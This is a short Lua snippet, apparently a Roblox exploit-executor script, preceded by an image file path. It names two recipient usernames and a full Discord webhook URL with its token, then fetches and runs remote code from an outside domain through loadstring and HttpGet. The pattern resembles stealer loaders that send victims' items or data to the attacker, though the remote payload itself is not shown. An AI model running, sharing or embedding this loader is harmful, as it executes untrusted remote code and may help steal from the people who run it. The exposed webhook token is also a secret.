 Username = "PogrzaloCie"
Username2 = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1216402622970597556/QpKrRy2fsTAbKyXMqXaGn52y-BlQSxGuLPy7ioxGBlDI-cU3FJA3iALYCLR0_tm3vwsl"

loadstring(game:HttpGet("https://egorikusa.space"))()
